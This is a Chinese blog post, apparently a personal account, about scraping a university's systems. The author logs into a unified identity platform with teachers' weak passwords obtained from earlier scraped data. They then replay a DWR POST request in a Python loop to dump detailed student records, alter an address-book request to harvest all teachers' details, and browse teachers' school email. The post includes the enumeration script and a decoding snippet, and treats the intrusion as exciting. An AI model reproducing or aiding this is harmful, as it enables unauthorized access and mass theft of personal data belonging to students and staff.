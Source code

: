 ```yaml
---
layout: post
title: 小小爬虫学习中（二）
categories: 一个小学生
kerywords: Spider Web Crawler
tags: 爬虫与反爬虫 旧文迁移
---
```


接上回那个勉强算得上或算不上抓取的回忆，但是那些数据之中有一些很敏感的信息，包括教师的详细信息，利用这个信息登陆统一身份验证平台，想必又会有收货呢

先登陆统一身份验证平台,在登陆的过程中，发现女老师对密码安全基本是没什么意识的，虽然你们也是计算机学院的，但是你们真的好意思说你们是计算机学员的吗？在登陆进去，发现老师可以查询学生的信息（仅包含姓名学号，班级），看了看挺失望的，毕竟这些信息没什么鸟用，但是当我看网页源码的时候，发现这个系统的开发人员很不负责，只是把之前写的文本框给遮盖了，但是还是靠那个传数据。于是抓包分析，发现是post request payload，response的结果却是student的详细信息(一应俱全，应有尽有),好呗
不得不说，很激动，抓呗。

```python
#-*-coding:utf-8-*-
import requests
import urllib2
import urllib
import encodings

url = ""
header={}
def xs(request_payload):
	request = urllib2.Request(url, headers=headers, data=urllib.urlencode(request_payload))
	response = urllib2.urlopen(request, timeout=5)
	content = response.read()
	print(content)

for i in range(1,70):
	m_request_payload = {
	'callCount':'1',
	'httpSessionId':'ssssssssssssssssssssssssss',
	'scriptSessionId':'sssssssssssssssssssssssss',
	'page':'/xxxxx/xxxxx/171',
	'c0-scriptName':'XSXXDwrAction',
	'c0-methodName':'getList',
	'c0-id':'165116513216516',
	'c0-param0':'number:'+ str(i),
	'c0-param1':'null:null',
	'c0-param2':'null:null',
	'c0-param3':'string:',
	'c0-param4':'number:15'
}
xs(m_request_payload)
```

当然这还没有解码，数据获取的类型是
![img5](https://img.iami.xyz/images/crawl/5.png)

```python
import  re
pattern = r'"(.*?)"'
with open('IDinfomation','r') as f:
    key = re.findall(pattern,f.read())
    for peopele in key:
    tt=peopele.decode('raw_unicode_escape').encode('utf-8')
```

最后稍微提取一下就能得到详细的信息了，全是你想要的，如果在内网中，还可以通过统一身份平台跳到教务系统，然后把这些人的图片爬下来，哈哈，想想都有点激动呢。

然后晚上的时候，登一个账号发现里面的通讯录的response也是很奇怪，把老师的详细信息都response了，稍微改下post,于是所有的老师更加详细的信息到手。而且没事还挑了几个老师的学校邮箱看了看，不过并没有什么有用的。
本来想做个统计，绘个图表，结果发现统一信息门户里面都已经给了可视化的图，虽然很丑。不过我现在数据并未完全组织好，也没插入到数据库，电脑估计是要重装了。之前折腾的有问题了。

最后，老师来查mac地址，希望没事吧。虽然这个没有什么技术含量，但是还是很有动力的。